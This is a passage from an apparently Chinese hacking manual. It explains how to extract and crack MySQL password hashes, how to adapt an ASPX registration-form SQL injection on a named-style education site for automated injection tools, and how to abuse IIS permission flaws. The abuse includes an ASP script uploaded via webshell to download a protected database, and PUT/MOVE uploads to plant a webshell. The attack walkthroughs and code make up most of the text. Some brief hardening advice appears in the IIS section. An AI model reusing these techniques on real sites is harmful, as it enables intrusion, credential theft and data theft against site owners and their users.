select pwdencrypt('nohack')
```

生成 hash。不过在 MSSQL 中同一个密码生成的 hash 值可能不同，比如两次加密（图 3、图 4）得到的值不同。一些牛人进行过研究，目前还没有高效成果出来。

上面的 Access 数据库、MSSQL 数据库密码 hash 的获取与破解，前一个太容易，后一个太难了，只是顺便介绍。下面着重介绍 MySQL 的系统账号获取与破解。

MySQL 数据库的密码获取相对容易，更重要的是从破解角度来说，MySQL 的密码是标准 SHA1 加密，可以手工用彩虹表破解，成功率目前比较大。

MySQL 的系统密码保存在名为 `mysql` 的数据库中的 `user` 表 `password` 字段中，可以用以下命令查看密码，如图 5：

```sql
use mysql;
select password
from user;
```

从图 5 中可以看到：`*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9` 字符串。除去最前面的 `*` 号，这一串 40 位字符就是 SHA1 加密后的 hash 了。注意，当破解 hash 时不要把星号拿去破解；`*` 号只是 MySQL 中使用的特殊识别符号。当我们用语句修改 MySQL 的系统用户密码时，那个 `*` 号要加上，命令如下：

```sql
UPDATE user SET
PASSWORD = '*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9'
```

破解时不要加 `*` 号，修改 MySQL 密码时要加 `*` 号，就这么简单。

在 MySQL 中有一个 `password` 函数专门用来计算密码的 SHA1 值。MySQL 下加密后的值与 MSSQL 不同，它是稳定的，不会出现两次加密同一个密码而得出不同值的情况。比如把密码 `123456` 反复加密，其结果还是 `6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9`，如图 6；而不像 MSSQL 会出现不同的值，这使破解容易了许多。

只要这个 hash 在我们生成的彩虹表中有，很快就能被破解出来，如图 7。

如果说能直接操作数据库得到系统密码所需条件太苛刻，还有一个办法可以成功得到密码 hash，那就是找账号相关文件，一般位于如下位置：

```text
/MySQL/data/mysql/user.MYD
/MySQL/data/mysql/user.frm
/MySQL/data/mysql/user.MYI
```

在系统下这三个文件都能用文本编辑器打开，如图 8。

通常这些目录是有读取权限的。如果我们得到了 webshell，可以将 `user.MYD` 下载到本地，用文件编辑器打开就能看到系统账号的密码，如图 9。

然后再用相关破解工具进行破解，就很容易获得结果。相比之下，这种方法得到 hash 仅需要对保存 `user.MYD` 的目录有读权限即可。

## 六、解决部分 ASPX 网站工具无法注入的问题

采用 ASP 脚本和 ASPX 脚本的网站通常使用 Access 数据库或 MSSQL 数据库。从理论上讲，如果拥有注入点，ASP 注入与 ASPX 注入并没有什么不同之处。

> 如果是 Access 数据库，就用 `select * from [表名]` 系列语句分别解猜出表名、列名、值，然后破解管理员密码进入后台，从而取得 webshell；如果是 MSSQL 数据库，则采用 `1=(查询语句)` 的系列句式暴出所需内容，并利用扩展存储过程执行命令或备份导出一个 webshell。

正如前面所说，完全相同只是理论中的。在实际应用时，ASPX 注入与 ASP 注入还是有一些不同之处，下面就通过一个例子来说明如何克服两者不同给 hack 带来的不便。

某国内著名教育站点整站用 ASPX 脚本编写，是一个典型的文章系统和问答系统，如图 1。

经过检测，在类似 `detail.aspx?articleid=XXX` 等参数提交页面没有发现注入漏洞。点开左上方“注册”二字，出现注册页面，习惯性地在注册资料内容后面加 `'` 号。当时提交内容如图 2，提交后没想到出现了很可能存在 SQL 注入的报错页面，如图 3。

出错提示中说包含未闭合的引号。以前学习过 SQL 注入知识的朋友应该知道，这是最有可能出现 SQL 注入的提示，并且出错的提交参数是 “nohack” 处，也就是图 2 中输入“用户名”的地方。

这种输入框里存在的注入，通常需要改变一下注入方法。在《资深黑客渗透内幕答疑》（非安全出品的哦！）一书中介绍过修改 HTML 表单，将字符限定长度改变，使得能顺利提交各种语句。这种方法只适合手工注入；想要方便快捷，需要把注入点修改成工具能识别的 URL 形式。

> 思路是：先对注册信息提交过程抓包，看看注册里到底提交了哪些参数，再到出现注点的参数后面提交注入语句。

抓包还是使用 WSockExpert。注意该工具的 DLL 文件常被当作木马被杀，如果不能运行，检查一下工具包含文件是否完整，如图 4。

运行 WSockExpert，在当前进程中先找到你浏览网页使用的程序。为了保证抓包成功，通常需要把要抓数据的网站单独使用一个浏览器并且只开一个分页。这里使用的是 IE，如图 5，在进程中找到 `iexplore.exe`，在下拉标签中选中上面那个注册页面标题。

在注册页面上填好各个信息，在用户名 nohack 后面加上单引号，点击页面下的“注册”按钮。再回到 WSockExpert 页面，我们看到已经有反应，抓到了向服务器提交的数据，如图 6。一共抓到两个数据包。为了方便查看，我将工具中的内容复制出来。

第一个包内容（即图 6 中有 “POST /reg/reg1” 那一行）如下：

```http
POST /reg/reg1.aspx HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, application/x-silverlight, application/x-ms-application, application/x-ms-xbap, application/vnd.ms-xpsdocument, application/xaml+xml, application/QVOD, */*
Referer: http://xxx-edu.cn/reg/reg1.aspx
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1); .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022)
Host: xxx-edu.cn
Content-Length: 2011
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASP.NET_SessionId=wugpx0y4o0wbf5eanzpw2sb1
```

紧跟第一个包的第二个包内容如下：

```text
__VIEWSTATE=dDwxMzl3MDM3OTc3O3Q8O2w8aTwxPjs%2BO2w8dDw7bDxpPDE%2BO2k8MzM%2BO2k8NTE%2BOz47bDx0PDtsPGk8Mz47PjtsPHQ8cDw7cDxsPE9uQ2xpY2s7PjtsPHJldHVybiBjaGVVja2Zvcm0oKTs%2BPj47Oz47Pj47dDx0PDt0PGk8MzQ%2BO0A85YyX5Lqs5biCO%2BWkqeaOpeW4gjvmsrPIjJfnnlE75bGx6KW%2F55yBO%2BWGheiSmeWPpOiHquayu%2BWMujvovr3IroHnnlE75ZCJ5p6X55yBO%2Bm7kem%2Bmeaxn%2BecgTvkulrmtbflull75rGf6luP55yBO%2Ba1meaxn%2BecgTvlronlvr3nnlE756aP5bu655yBO%2Baxn%2Bilv%2BecgTvlshHkuJznnlE75rKz5Y2X55yBO%2Ba5luWMI%2BecgTvmuZbljZfnnlE75bm%2F5Lic55yBO%2BW5v%2Bilv%2BWjruaXj%2BiHquayu%2BWMujvmtbfljZfnnlE76YeN5bqG5biCO%2BWbm%2BW3neecgTvotLXlt57nnlE75LqR5Y2X55yBO%2Bilv%2BiXj%2BiHquayu%2BWMujvpmZXopb%2FnnlE755SY6IKD55yBO%2Bmdkua1t%2BecgTvlroHlpl%2FIm57ml4%2Foh6rmsrvljLo75paw55aG57u05ZC%2B5bCU6leq5rK75Yy6O%2BWPsOa5vuecgTvpppnmuK%2FnibnliKvooYzmlL%2FIjLo75r6z6Zeo54m55Yir6KGM5pS%2F5Yy6Oz47QDzljJkuqzlull75ASP5rSl5biCO%2Bays%2BWMI%2BecgTvlshHopb%2FnnlE75YaF6JKZ5Y%2Bk6leq5rK75Yy6O%2Bi%2BveWugeecgTvlknmnpfnnlE76buR6b6Z5rGf55yBO%2BS4iua1t%2BW4gjvmsZ%2Foi4%2FnnlE75rWZ5rGf55yBO%2BWuieW%2BveecgTvnpo%2FIu7rnnlE75rGf6KW%2F55yBO%2BWxseS4nOecgTvmsrPIjZfnnlE75rmW5YyX55yBO%2Ba5luWNI%2BecgTvlub%2FkuJznnlE75bm%2F6KW%2F5aOu5peP6leq5rK75Yy6O%2Ba1t%2BWNI%2BecgTvph43luoblull75Zub5bed55yBO%2Bi0teW3nuecgTvkupHljZfnnlE76KW%2F6JeP6leq5rK75Yy6O%2BmZleilv%2BecgTvnIJjogoPnnlE76Z2S5rW355yBO%2BWugeWkj%2BWbnuaXj%2BiHquayu%2BWMujvmIrDnlobnu7TlkL7lsJToh6rmsrvljLo75Y%2Bw5rm%2B55yBO%2Bmmmea4r%2BeJueWIq%2BihjOaUv%2BWMujvmvrPpl6jnibnliKvooYzmlL%2FIjLo7Pj47Pjs7Pjt0PHA8O3A8bDxPbkNsaWNrOz47bDxyZXR1cm4gY2hlY2tmb3JtKCK7Pj4%2BOzs%2BOz4%2BOz4%2BO2w8dG9wMTpJbWFnZWJ1dHRvbjt0b3AxOmltZ2J1dHRvbjE7c2V4dHh0MTt0b3AxO3NleHR4dDI7YnV0dG9uMTs%2BPlpiRivB6AZmGcsY1Z7OJ6wqOeMw%3D&top1%3Akwtxt=%C7%EB%CA%E4%C8%EB%B9%D8%BC%FC%D7%D6&usertext=nohack%27&passtxt=111111&passtxt1=111111&emailtxt=ddd@112.com&qtxt=alksdfjlaksdf&atxt=alksdfjlaksdf&truetxt=&sextxt=%C4%D0&ProvinceDD=%B1%B1%BE%A9%CA%D0&addresstxt=&telxt=&qqtxt=&msntxt=&indextxt=&checkbox=checkbox&ip=222.186.12.106&typeNum=01&button1.x=37&button1.y=7
```

ASP 中把这种提交方式改为 URL 形式放到工具里是很容易的。从抓包信息中截取用户名、密码等内容对应的变量，直接加到 POST 提交文件就行。根据第一个包中抓到的数据，我们知道提交地址是：`POST /reg/reg1.aspx HTTP/1.1`。从第二个包中能看到我们提交的用户名 nohack 附近有如下代码：

```text
top1%3Akwtxt=%C7%EB%CA%E4%C8%EB%B9%D8%BC%FC%D7%D6&usertext=nohack%27&passtxt=111111&passtxt1=111111&emailtxt=ddd@112.com&qtxt=alksdfjlaksdf&atxt=alksdfjlaksdf&truetxt=&sextxt=%C4%D0&ProvinceDD=%B1%B1%BE%A9%CA%D0&addresstxt=&telxt=&qqtxt=&msntxt=&indextxt=&checkbox=checkbox&ip=222.186.12.106&typeNum=01&button1.x=37&button1.y=7
```

接着把有注入漏洞的变量 `usertxt=nohack` 移动到 URL 的最后面，方便工具注入，最后得到的 URL 如下：

`http://xxx-edu.cn/reg/reg1.ASPX?top1%3Akwtxt=%C7%EB%CA%E4%C8%EB%B9%D8%BC%FC%D7%D6&passtxt=111111&passtxt1=111111&emailtxt=ddd@112.com&qtxt=alksdfjlaksdf&atxt=alksdfjlaksdf&truetxt=&sextxt=%C4%D0&ProvinceDD=%B1%B1%BE%A9%CA%D0&addresstxt=&teltxt=&qqtxt=&msntxt=&indextxt=&checkbox=checkbox&ip=222.186.12.106&typeNum=01&button1.x=37&button1.y=7&usertxt=nohack`



把这个 URL 放进工具检测，却检测不出注入，如图 7。

再把这个链接放进 IE 浏览器，在 nohack 后面加个“'”号直接检测，也没有出现在注册检测时的“未闭合的单引号”提示，而是刷新了一次页面，如图 8。

看来的确是有问题，构造出的 URL 无法注入，我们在源码中看一下能否找到原因。由于篇幅的关系，我只把部分代码截取出来进行分析：

```html
<form name="Form1" method="post" action="reg1.ASPX?top1%3Akwtxt=%C7%EB%CA%E4%C8%EB%B9%D8%BC%FC%D7%D6&amp;usertxt=nohack%27&amp;passtxt=111111&amp;passtxt1=111111&amp;emailtxt=ddd@112.com&amp;qtxt=alksdfjlaksdf&amp;atxt=alksdfjlaksdf&amp;truetxt=&amp;sextxt=%C4%D0&amp;ProvinceDD=%B1%B1%BE%A9%CA%D0&amp;addresstxt=&amp;teltxt=&amp;qqtxt=&amp;msntxt=&amp;indextxt=&amp;checkbox=checkbox&amp;ip=222.186.12.106&amp;typeNum=01&amp;button1.x=37&amp;button1.y=7" id="Form1">
```

```html
<input type="hidden" name="__VIEWSTATE" value="dDwxMzI3MDM3OTc3O3Q8O2w8aTwxPjs+O2w8dDw7bDxpPDE+O2k8MzM+O2k8NTE+Oz47bDx0PDtsPGk8Mz47PjtsPHQ8cDw7cDxsPE9uQ2xpY2s7PjtsPHJldHVybiBjaGVja2Zvcm0oKTs+Pj47Oz47Pj47dDx0PDt0PGk8MzQ+00A85YyX5Lqs5biCO+Wkqea0peW4gjvmsrPljJfnnlE75bGx6KW/55yBO+WGheiSmeWPpOiHquayu+WMujvovr3IroHnnlE75ZCJ5p6X55yBO+m7kem+meaxn+ecgTvkulrmtbfllull75rGf6luP55yBO+a1meaxn+ecgTvIronlvr3nnlE756aP5bu655yBO+axn+ilv+ecgTvlsbHkuJznnlE75rKz5Y2X55yBO+a5luWMI+ecgTvmuZbljZfnnlE75bm/5Lic55yBO+W5v+ilv+WjruaXj+iHquayu+WMujvmtbflljZfnnlE76YeN5bqG5biCO+Wbm+W3neecgTvotLXlt57nnlE75LqR5Y2X55yBO+ilv+iXj+iHquayu+WMujvpmZXopb/nnlE755SY6IKD55yBO+mdkua1t+ecgTvlroHlpl/lm57ml4/oh6rmsrvljLo75paw55aG57u05ZC+5bCU6Ieq5rK75Yy6O+WPsOa5vuecgTvpppnmuK/nibnliKvooYzmlL/ljLo75r6z6Zeo54m55Yir6KGM5pS/5Yy6Oz47QDzlJfkuqzlull75ASP5rSI5biCO+ays+WMI+ecgTvlsbHopb/nnlE75YaF6JKZ5Y+k6Ieq5rK75Yy6O+i+veWugeecgTvIknmnpfnnlE76buR6b6Z5rGf55yBO+S4lua1t+W4gjvmsZ/oi4/nnlE75rWZ5rGf55yBO+WuieW+veecgTvnpo/lu7rnnlE75rGf6KW/55yBO+WxseS4nOecgTvmsrPljZfnnlE75rmW5YyX55yBO+a5luWNI+ecgTvlub/kuJznnlE75bm/6KW/5aOu5peP6Ieq5rK75Yy6O+a1t+WNI+ecgTvph43luoblull75Zub5bed55yBO+i0teW3nuecgTvkupHljZfnnlE76KW/6JeP6Ieq5rK75Yy6O+mZleilv+ecgTvnlJjogoPnnlE76Z2S5rW355yBO+WugeWkj+WbnuaXj+iHquayu+WMujvmIrDnlobnu7TlkL7IsJToh6rmsrvljLo75Y+w5rm+55yBO+mmmea4r+eJueWlq+ihjOaUv+WMujvmvrPpI6jnibnliKvooYzmlL/IjLo7Pj47Pjs7Pjt0PHA8O3A8bDxPbkNsaWNrOz47bDxyZXR1cm4gY2hlY2tmb3JtKCk7Pj4+Ozs+Oz4+Oz4+O2w8dG9wMTpJbWFnZWJ1dHRvbJE7dG9wMTppbWdidXR0b24xO3NleHR4dDE7c2V4dHh0MjtidXR0b24xOz4+1piRivB6AZmGcsY1Z7OJ6wqOeMw=" />
```

| 项目 | 内容 |
|---|---|
| 标题 | 用户注册 |
| 提示 | 有 * 标记的内容是必填项。 |
| 用户名 | `input name="usertxt"`（必填） |
| 密码 | `input name="passtxt"`（必填） |
| 确认密码 | `input name="passtxt1"`（必填） |
| E-mail | `input name="emailtxt"`（必填；请填写真实 E-mail 地址，便于您找回密码） |
| 密码保护问题 | `input name="qtxt"`（必填） |
| 您的答案 | `input name="atxt"`（必填） |
| 真实姓名 | `input name="truetxt"` |
| 性别 | `radio name="sextxt"`：男（默认）/ 女 |
| 所在省份 | `select name="ProvinceDD"`（必填） |
| 详细地址 | `input name="addresstxt"` |
| 联系电话 | `input name="teltxt"` |
| QQ | `input name="qqtxt"` |
| MSN | `input name="msntxt"` |
| 个人主页 | `input name="indextxt"` |
| 服务条款 | `checkbox name="checkbox"`：我接受服务条款（查看服务条款） |
| 提交按钮 | `input type="image" name="button1"`（`OnClick="return checkform()"`） |

所在省份（`ProvinceDD`）选项：

- 北京市
- 天津市
- 河北省
- 山西省
- 内蒙古自治区
- 辽宁省
- 吉林省
- 黑龙江省
- 上海市
- 江苏省
- 浙江省
- 安徽省
- 福建省
- 江西省
- 山东省
- 河南省
- 湖北省
- 湖南省
- 广东省
- 广西壮族自治区
- 海南省
- 重庆市
- 四川省
- 贵州省
- 云南省
- 西藏自治区
- 陕西省
- 甘肃省
- 青海省
- 宁夏回族自治区
- 新疆维吾尔自治区
- 台湾省
- 香港特别行政区
- 澳门特别行政区

## 重装上阵

其中一行代码引起我的注意，那就是 `<input type="hidden"`。有一定 HTML 基础的朋友应该能看出来（由此可见掌握一定的基础知识是多么有必要，使你具有分析问题的能力，直接提高你的技术水平），这是一个隐藏的输入域，是必须提交到服务器上的，但是我们的 URL 中并没有提交它，其后的字符如下：

```html
name="__VIEWSTATE" value="dDwxMzI3MDM3OTc3O3Q8O2w8aTwxPjs+O2w8dDw7bDxpPDE+O2k8MzM+O2k8NTE+Oz47bDx0PDtsPGk8Mz47PjsPHQ8cDw7cDxsPE9uQ2xpY2s7PjsPHJIdHVybiBjaGVVja2Zvcm0oKTs+Pj47Oz47Pj47dDx0PDt0PGk8MzQ+O0A85YyX5Lqs5biCO+Wkqea0peW4gjvmsrPljJfnnlE75bGx6KW/55yBO+WGheiSmeWPpOiHquayu+WMujvovr3IroHnnlE75ZCJ5p6X55yBO+m7kem+meaxn+ecgTvkulrmtbflull75rGf6luP55yBO+a1meaxn+ecgTvIrolvr3nnlE756aP5bu655yBO+axn+ilv+ecgTvlslbHkuJznnlE75rKz5Y2X55yBO+a5luWMI+ecgTvmuZbljZfnnlE75bm/5Lic55yBO+W5v+ilv+WjruaXj+iHquayu+WMujvmtbfIjZfnnlE76YeN5bqG5biCO+Wbm+W3neecgTvotLXIt57nnlE75LqR5Y2X55yBO+ilv+iXj+iHquayu+WMujvpmZXopb/nnlE755SY6IKD55yBO+mdkua1t+ecgTvIroHlpl/Im57ml4/oh6rmsrvljLo75paw55aG57u05ZC+5bCU6Ieq5rK75Yy6O+WPsOa5vuecgTvpppnmuK/nibnliKvooYzmlL/ljLo75r6z6Zeo54m55Yir6KGM5pS/5Yy6Oz47QDzljJfkuqzlull75ASP5rSI5biCO+ays+WMI+ecgTvlslbHopb/nnlE75YaF6JKZ5Y+k6Ieq5rK75Yy6O+i+veWugecgTvIknmnpfnnlE76buR6b6Z5rGf55yBO+S4iua1t+W4gjvmsZ/oi4/nnlE75rWZ5rGf55yBO+WuieW+veecgTvnpo/lu7rnnlE75rGf6KW/55yBO+WxseS4nOecgTvmsrPljZfnnlE75rmW5YyX55yBO+a5luWNI+ecgTvlub/kuJznnlE75bm/6KW/5aOu5peP6Ieq5rK75Yy6O+a1t+WNI+ecgTvph43Iuoblull75Zub5bed55yBO+i0teW3nuecgTvkupHljZfnnlE76KW/6JeP6Ieq5rK75Yy6O+mZleilv+ecgTvnlJjogoPnnlE76Z2S5rW355yBO+WugeWkj+WbnuaXj+iHquayu+WMujvmIrDnIobnu7TlkL7IsJToh6rmsrvljLo75Y+w5rm+55yBO+mmmea4r+eJueWIq+ihjOaUv+WMujvmvrPpl6jnibnliKvooYzmlL/ljLo7Pj47Pjs7Pjt0PHA8O3A8bDxPbkNsaWNRoz47bDxyZXR1cm4gY2hlY2tmb3JtKCK7Pj4+Ozs+Oz4+Oz4+O2w8dG9wMTpJbWFnZWJ1dHRvbE7dG9wMTppbWdidXR0bXR0b24xO3NleHR4dDE7c2V4d4dHh0Mjt0dXR0b24xOz4+1piRivB6AZmGcsY1Z7OJ6wqOeMw=" />
```

这是 ASP.NET 的一个隐藏域，是微软自动生成的网页资源状态加密文本，用来在客户端和服务器之间维持状态的，它也是提交的参数。因此在注入时，还必须把这一长串字符也加上，一起构成 URL。

图 9

于是经过修改后的 URL 为：

```text
http://xxx-edu.cn/reg/reg1.ASPX? __VIEWSTATE=dDwxMzI3MDM3OTc3O3Q8O2w8aTwXPjs%2BO2w8dDw7bDxpPDE%2BO2k8MzM%2BO2k8NTE%2BOz47bDx0PDtsPGk8Mz47PjtsPHQ8cDw7cDxsPE9uQ2xpY2s7PjtsPHJIdHVybiBjaGVja2Zvcm0oKTs%2BPj47Oz47Pj47dDx0PDt0PGk8MzQ%2BO0A85YyX5Lqs5biCO%2BWkqeaOpeW4gjvmsrPljJfnnlE75bGx6KW%2F55yBO%2BWGheiSmeWPpOiHquayu%2BWMujvovr3IroHnnlE75ZCJ5p6X55yBO%2Bm7kem%2Bmeaxn%2BecgTvkulrmtbflulI75rGf6luP55yBO%2Ba1meaxn%2BecgTvIrolvr3nnlE756aP5bu655yBO%2Baxn%2Bilv%2BecgTvIsbHkuJznnlE75rKz5Y2X55yBO%2Ba5luWMI%2BecgTvmuZbljZfnnlE75bm%2F5Lic55yBO%2BW5v%2Bilv%2BWjruxj%2BiHquayu%2BWMujvmtbfljZfnnlE76YeN5bqG5biCO%2BWbm%2BW3neecgTvotLXIt57nnlE75LqR5Y2X55yBO%2Bilv%2BiXj%2BiHquayu%2BWMujvpmZXopb%2FnnlE755SY6IKD55yBO%2Bmdkua1t%2BecgTvIroHlpl%2FIm57ml4%2Foh6rmsrvljLo75paw55aG57u05ZC%2B5bCU6leq5rK75Yy6O%2BWPsoa5vuecgTvpppnmuk%2FnibnliKvooYzmlL%2FljLo75r6z6Zeo54m55Yir6KGM5pS%2F5Yy6Oz47QDzljJfkuqzlull75ASP5rSI5biCO%2Bays%2BWMl%2BecgTvIsbHopb%2FnnlE75YaF6JKZ5Y%2Bk6leq5rK75Yy6O%2Bi%2BveWugeecgTvIknmnpfnnlE76buR6b6Z5rGf55yBO%2BS4iua1t%2BW4gjvmsZ%2Foi4%2FnnlE75rWZ5rGf55yBO%2BWuieW%2BveecgTvnpo%2Flu7rnnlE75rGf6KW%2F55yBO%2BWxseS4nOecgTvmsrPljZfnnlE75rmW5YyX55yBO%2Ba5luWNI%2BecgTvlub%2FkuJznnlE75bm%2F6KW%2F5aOu5peP6leq5rK75Yy6O%2Ba1t%2BWNI%2BecgTvph43luoblull75Zub5bed55yBO%2Bi0teW3nuecgTvkupHljZfnnlE76KW%2F6JeP6leq5rK75Yy6O%2BmZleilv%2BecgTvnIJjogoPnnlE76Z2S5rW355yBO%2BWugeWkj%2BWbnuaXj%2BiHquayu%2BWMujvmIrDnlobnu7TIkL7IsJToh6rmsrvljLo75Y%2Bw5rm%2B55yBO%2Bmmmea4r%2BeJueWIq%2BihiOaUv%2BWMujvmvrPpl6jnibnliKvooYzmlL%2FljLo7Pj47Pjs7Pjt0PHA8O3A8bDxPbkNsaWNrOz47bDxyZXR1cm4gY2hlY2tmb3JtKCk7Pj4%2BOzs%2BOz4%2BOz4%2BO2w8dG9wMTpJbWFnZWJ1dHRvbjE7dG9wMTppbWdidXR0b24xO3NleHR4dDE7c2V4dHh0MjtIdXR0b24xOz4%2B1piRivB6AZmGcsY1Z7OJ6wqOeMw%3D&top1%3Akwtxt=%C7%EB%CA%E4%C8%EB%B9%D8%BC%FC%D7%D6&passtxt=111111&passtxt1=111111&emailtxt=dddz@112.com&qtxt=alksdfjlaksdf&atxt=alksdfjlaksdf&truetxt=&sextxt=%C4%D0&ProvinceDD=%B1%B1%BE%A9%CA%D0&addresstxt=&teltxt=&qqtxt=&msntxt=&indextxt=&checkbox=checkbox&ip=222.186.12.106&typeNum=01&button1.x=37&button1.y=7&usertext=nohack
```

这一串字符相当长，并不是所有的注入工具都能容纳。如果发现手里的工具不能识别，可以换个工具再试试。如图 9 中的“穿山甲注入工具”就支持长地址，而之前用过的 NBSI 就不支持这种超长的注入链接了。

经过一番改造，终于能在工具中方便地进行注入了。由这个例子可见，ASP 的注入与 ASPX 的注入还是不同的，ASPX 的注入可能需要多费些周折。

## 七、IIS 的权限配置不当引发的安全事故

IIS 自问世以来，出现过不少严重的漏洞，从十年前的“红色蠕虫”IDQ 溢出漏洞、“../../../../windows/system32/cmd.exe”跳转执行漏洞，到江湖上传说中如“血滴子”一样似有似无的 IIS6.0 溢出漏洞，以及许多如“建立隐藏目录”“asp 目录名下执行脚本文件”等小漏洞，IIS 就像一个身体瘦弱的病人，不怀好意的入侵者总爱在它身上打打主意，希望找到突破口。

基于 IIS 权限配置不当引发的安全问题，我们也必须了解。在 IIS 中的权限是与我们所说的 NTFS 磁盘权限不同的。从对象上看，NTFS 权限是针对不同的用户组，如系统用户组、管理员组、普通用户组、GUEST 用户组等的权限，而 IIS 下的权限配置仅只针对 IIS 的专有账号“IIS_机器名”。如图 1，是 NTFS 权限管理的对象和内容。

NTFS 权限的内容是：

- 完全控制
- 修改
- 读取和执行
- 列目录
- 读取
- 写入

以上是属于 Windows 管辖的功能，而 IIS 权限是指：

- 脚本资源访问
- 读取
- 写入
- 浏览
- 记录访问
- 索引资源

如图 2，这就是 IIS 权限管理页面。在这 6 个复选项中，“记录访问”和“索引资源”跟安全性关系不大，其它四项的配置如果不当，就有可能产生安全问题。在下面的脚本执行权限中，还有“无”“纯脚本”“纯脚本和可执行程序”这 3 个选项，如图 3。

这三个选项相当关键。如果设为“无”，则该目录下的脚本（asp、php、aspx 等）都无法执行。如果把保存图片文件的目录，如 upfile、uploadfile 等目录设成无脚本权限，脚本木马即便被上传到目录里也不会被执行，访问时提示如图 4。

## 重装上阵

包括本书中讲到的用 shtml 文件突破上传，如果在没有脚本执行的目录里也会无法执行，如图 5。

由此可见，如果图片保存目录没有了执行权限，会使很多程序杜绝上传漏洞的威胁。

对于 ACCESS 数据库的暴库及下载漏洞，常常令人头疼。很多朋友采取把数据库后缀改成 asa、asp 的方法来防下载，但是这样一来又出现了新的漏洞——数据库插马。虽然出现了防下载的处理办法，但在《资深黑客渗透内幕答疑》（非安全出品哦！）一书中也介绍给了大家闭合防下载字段继续入侵的思路和方法。

现在的防下载方法被改进了：管理员把数据库的 MDB 文件只给“Internet 来宾账号”或“IIS_WPG 组账号”权限（可读可写）及管理员的完全控制权限，把 IIS 权限上的读写权限去掉就行了。如图 6，把对数据库文件的读取、写入的勾都取消掉。

这样，当你从 conn.asp 中得到了数据库地址也无法下载，会弹出提示未经授权，如图 7。

这种情况想要下载数据库到本地细细研究，只能通过获得 webshell 上传的脚本下载，脚本的代码如下：

```asp
<%
Dim down_file
down_file = "D:\www\web\data\db.mdb"
Response.ContentType = "Application/octet-stream"
Response.AddHeader "Content-Disposition", "attachment; filename=" & mid(down_file,instrrev(down_file,"")+1)
Dim stream
Set stream = Server.CreateObject("ADODB.Stream")
stream.Open
stream.Type = 1
stream.LoadFromFile down_file
stream.Position = 0
Response.BinaryWrite stream.Read(-1)
stream.Close
Set stream = Nothing
Response.End
%>
```

把以上代码中要下载的数据库地址 `D:\www\web\data\db.mdb` 替换成你要下载的网站数据库绝对地址即可。先通过 webshell 或者暴库，在网站的 conn.asp 文件中查看到数据库的地址。如果是相对路径要补充成完整路径，比如我们这里是相对路径 `data/CixiBlog.Mdb`，如图 8。

通过 webshell 看看网站所在的目录，然后更改成绝对路径。这里我们看到的网站目录是 `C:\Inetpub\wwwroot`，如图 9，加上 conn.asp 里看到的相对路径，网站数据库的真实地址就是 `C:\Inetpub\wwwroot\data\CixiBlog.Mdb`。

把刚才代码中的 `D:\www\web\data\db.mdb` 替换成 `C:\Inetpub\wwwroot\data\CixiBlog.Mdb` 后另存为 xiaku.asp 上传到网站上，访问这个脚本，就能下载这个刚才无法下载的文件了，如图 10。

当我们能浏览网站文件列表时，这可能是配置不当引起的，比如网站的 IIS 权限中“目录浏览”一项被选上了，如图 11。

当我们访问目录时，所有的文件都被列出，如图 12。不过通常不能列出网站根目录的文件，这是因为根目录下有 index.asp、default.asp 等系统默认的自动解析文件，会跳转到网站正常页面。

有了大部分的文件及目录，对于我们的入侵也提供了很多方便，可以通过文件猜出整站程序的名称。如果数据库目录可直接访问，还能看到数据库名，直接下载数据库就行了。要访问别的目录，就需要直接在 URL 上修改目录名，比如这里把 inc 目录改成 data 就访问到了数据库目录下，如图 13。

如果 IIS 权限中的“写入”和“脚本访问”两项都被选上，会出现 IIS 的写入漏洞。用老兵的“IIS 写权限利用工具”先 PUT 一个 TXT 包，然后 MOVE 成 ASP 等脚本后缀，就能得到一个 WEBSHELL，该工具界面如图 14。

